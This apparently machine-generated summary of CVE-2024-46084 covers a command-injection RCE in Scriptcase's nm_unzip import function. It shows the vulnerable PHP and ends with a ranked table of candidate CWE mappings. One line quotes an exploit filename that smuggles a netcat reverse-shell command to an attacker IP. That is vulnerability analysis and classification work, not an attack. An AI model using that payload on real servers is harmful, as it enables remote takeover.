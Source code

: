 # Vulnerability Information: CVE-2024-46084

## Vulnerability Description
Scriptcase 9.10.023 and before is vulnerable to Remote Code Execution (RCE) via the nm_unzip function.

### Vulnerability Description Key Phrases
- **impact:** Remote Code Execution
- **product:** Scriptcase
- **version:** 9.10.023 and before
- **component:** nm_unzip function

## CVE Reference Links Content Summary
Based on the provided content, here's the breakdown of CVE-2024-46084:

**Root Cause of Vulnerability:**
- The vulnerability lies within the `nm_unzip` function used in the import feature of Scriptcase. This function executes a `shell_exec` command using the `7za` binary to extract uploaded ZIP files. The filename of the uploaded file, which is user-controlled, is passed directly to the shell command without proper sanitization.

**Weaknesses/Vulnerabilities Present:**
- **Remote Code Execution (RCE):** The unsanitized input to the `shell_exec` function allows an attacker to inject arbitrary commands into the operating system.
- **Insecure use of `shell_exec`:** The function uses `shell_exec` with user-provided input without any input validation or sanitization which can lead to command injection.

**Impact of Exploitation:**
- Successful exploitation allows an attacker to execute arbitrary code on the server hosting the Scriptcase application.
- This can lead to a complete compromise of the application and the server, potentially allowing for data theft, malware installation, or further attacks on the internal network.

**Attack Vectors:**
- The attack vector is the import feature of Scriptcase, which allows users to upload ZIP files.
- The filename of the uploaded file is used directly within a shell command.

**Required Attacker Capabilities/Position:**
- The attacker needs to have an account with permissions to import projects in Scriptcase
- The attacker needs to craft a malicious ZIP filename containing shell commands.
- The attacker needs to upload the file using the import functionality.

**Technical Details:**

- The vulnerable code snippet:
```php
function nm_unzip($v_str_file, $v_str_dir)
{
    global $nm_config;
    nm_dir_create($v_str_dir);
    $_so = nm_op_sys();
    if ($_so != "mac" && is_dir($nm_config["path_prod"] . "third/zip/")) {
        $_7z = $nm_config["path_prod"] . "third/zip/";
        $dir_extract = $v_str_dir;
        $_zip_file = $v_str_file;
        // ... OS specific path selection...
        $_chold = getcwd();
        chdir($nm_config["path_tmp"]);
        shell_exec($_7z . " x " . $_zip_file . " -aos -o" . $dir_extract);
        chdir($_chold);
    } 
    // ... fallback code ...
}
```
- The filename `$v_str_file` is directly included in the `shell_exec` command without proper sanitization.
- The provided exploit uses a filename such as `"e.zip;nc -c sh 192.168.0.146 1337 #.zip"`, where the included command executes a reverse shell to the attacker's machine via netcat.

This blog post provides more details than the original CVE description.

## Retriever Results

### Top Combined Results

| Rank | CWE ID | Name | Abstraction | Usage  | Retrievers | Individual Scores |
|------|--------|------|-------------|-------|------------|-------------------|
| 1 | 96 | Improper Neutralization of Directives in Statically Saved Code ('Static Code Injection') | Base | Allowed | sparse | 0.033 |
| 2 | 95 | Improper Neutralization of Directives in Dynamically Evaluated Code ('Eval Injection') | Variant | Allowed | sparse | 0.033 |
| 3 | 1336 | Improper Neutralization of Special Elements Used in a Template Engine | Base | Allowed | sparse | 0.032 |
| 4 | 78 | Improper Neutralization of Special Elements used in an OS Command ('OS Command Injection') | Base | Allowed | sparse | 0.032 |
| 5 | 790 | Improper Filtering of Special Elements | Class | Allowed-with-Review | sparse | 0.031 |
| 6 | 434 | Unrestricted Upload of File with Dangerous Type | Base | Allowed | sparse | 0.030 |
| 7 | 502 | Deserialization of Untrusted Data | Base | Allowed | sparse | 0.029 |
| 8 | 138 | Improper Neutralization of Special Elements | Class | Discouraged | sparse | 0.029 |
| 9 | 94 | Improper Control of Generation of Code ('Code Injection') | Base | Allowed-with-Review | dense | 0.543 |
| 10 | 184 | Incomplete List of Disallowed Inputs | Base | Allowed | graph | 0.002 |

